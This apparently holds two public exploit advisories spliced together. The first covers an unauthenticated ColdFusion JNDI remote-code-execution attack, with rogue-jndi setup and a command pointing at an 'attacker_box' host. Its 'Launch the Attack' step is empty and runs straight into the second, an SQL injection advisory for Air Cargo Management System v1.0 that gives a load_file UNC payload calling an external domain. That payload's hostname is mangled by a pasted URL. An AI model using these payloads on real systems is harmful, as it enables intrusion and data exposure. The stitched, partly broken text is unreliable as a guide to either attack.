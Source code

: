 # Description:
# ColdFusion allows an unauthenticated user to connect to any LDAP server. An attacker can exploit it to achieve remote code execution.
# JNDI attack via the 'verifyldapserver' parameter on the utils.cfc

==================== 1.Setup rogue-jndi Server ====================

https://github.com/veracode-research/rogue-jndi


==================== 2.Preparing the Attack =======================

java -jar target/RogueJndi-1.1.jar --command "touch /tmp/owned" --hostname "attacker_box"

==================== 3.Launch the Attack ==========================
# Title: Air Cargo Management System v1.0 - SQLi
# Author: nu11secur1ty
# Date: 02.18.2022
# Vendor: https://www.sourcecodester.com/users/tips23
# Software: https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html
# Reference: https://github.com/nu11secur1ty/CVE-nu11secur1ty/blob/main/vendors/oretnom23/2022/Air-Cargo-Management-System

# Description:
The `ref_code` parameter from Air Cargo Management System v1.0 appears
to be vulnerable to SQL injection attacks.
The payload '+(select
load_file('\\\\c5idmpdvfkqycmiqwv299ljz1q7jvej5mtdg44t.https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html\\hag'))+'
was submitted in the ref_code parameter.
This payload injects a SQL sub-query that calls MySQL's load_file
function with a UNC file path that references a URL on an external
domain.
The application interacted with that domain, indicating that the
injected SQL query was executed.
WARNING: If this is in some external domain, or some subdomain
redirection, or internal whatever, this will be extremely dangerous!
Status: CRITICAL
